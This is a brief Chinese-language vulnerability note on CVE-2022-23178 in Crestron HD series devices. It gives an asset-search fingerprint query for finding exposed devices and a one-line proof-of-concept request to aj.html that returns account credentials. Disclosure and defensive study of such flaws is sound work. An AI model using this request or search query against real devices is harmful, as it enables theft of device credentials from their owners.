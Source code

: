 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

```
Crestron HD等系列设备
```

## 网络测绘

```
app="Crestron-HD-RX-201-C-E"
```

## 漏洞复现

POC

```
/aj.html?a=devi
```

![image-20220519161948146](./images/202205191619189.png)